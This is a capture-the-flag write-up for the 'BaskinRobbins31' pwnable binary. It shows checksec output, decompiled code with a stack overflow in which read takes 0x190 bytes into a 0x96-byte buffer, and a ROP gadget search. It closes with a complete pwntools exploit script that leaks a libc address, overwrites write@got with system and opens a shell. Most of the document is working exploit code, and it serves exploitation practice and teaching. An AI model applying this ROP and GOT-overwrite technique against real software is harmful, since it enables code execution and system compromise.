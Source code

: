 # BaskinRobbins31

```bash
checksec ./BaskinRobbins31
[*] '/home/ubuntu/Desktop/Pwnable/rop/BaskinRobbins31/BaskinRobbins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This binary has `NX-bit` and `Partical RELRO`.

And here is disassembled code.

```c
signed __int64 __fastcall your_turn(_DWORD *a1)
{
  signed __int64 result; // rax
  char s; // [rsp+10h] [rbp-B0h]
  size_t n; // [rsp+B0h] [rbp-10h]
  int v4; // [rsp+BCh] [rbp-4h]

  v4 = 0;
  memset(&s, 0, 0x96uLL);
  puts("How many numbers do you want to take ? (1-3)");
  n = read(0, &s, 0x190uLL);
  write(1, &s, n);
  putchar(10);
  v4 = strtoul(&s, 0LL, 10);
  if ( check_decision(v4, 0LL) )
  {
    *a1 -= v4;
    result = 1LL;
  }
  else
  {
    puts("Don't break the rules...:( ");
    result = 0LL;
  }
  return result;
}
```

I can find vulunablity to use rop. `s` is `0x96` bytes array, and `n = read(0, &s, 0x190uLL);` this is vulunable code.

`s` is in `[ebp - 0xB0]`, so I give dummy `0xB0` bytes, and `8 bytes sfp`. After that, I make ROP code.

```c
write(1, read@got, 8);      // leak read@got
read(0, bss, 8);            // write '/bin/sh'
read(0, write@got, 8);      // overwrite write@got
write('/bin/sh');           // call system by write@got
```

And I find gadget, and they give me a full gadget.

```asm
rp++ -f ./BaskinRobbins31 -r 3 | grep "pop rdi"
0x0040087a: pop rdi ; pop rsi ; pop rdx ; ret  ;  (1 found)
0x00400bc3: pop rdi ; ret  ;  (1 found)
```

## exploit.py

```python
from pwn import *

context.log_level = 'debug'

binary = ELF('./BaskinRobbins31')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

read_plt = binary.plt['read']
read_got = binary.got['read']
write_plt = binary.plt['write']
write_got = binary.got['write']

bss = binary.bss()

system_offset = libc.symbols['system']
read_offset = libc.symbols['read']

read_system_offset = read_offset - system_offset

pppr = 0x0040087a # pop rdi; pop rsi; pop rdx; ret

payload = 'a'*0xb0 + 'b'*8
payload += p64(pppr) + p64(1) + p64(read_got) + p64(8) + p64(write_plt)
payload += p64(pppr) + p64(0) + p64(bss) + p64(8) + p64(read_plt)
payload += p64(pppr) +p64(0) + p64(write_got) + p64(8) + p64(read_plt)
payload += p64(pppr) + p64(bss) + 'b'*8 + 'c'*8 + p64(write_plt)

p = process('./BaskinRobbins31')

p.recv()
p.sendline(payload)
leak_read = u64(p.recv()[-8:])
log.info('leaked read: ' + hex(leak_read))
leak_system = leak_read - read_system_offset
log.info('leaked system: ' + hex(leak_system))

p.sendline('/bin/sh')
p.sendline(p64(leak_system))
p.interactive()
```
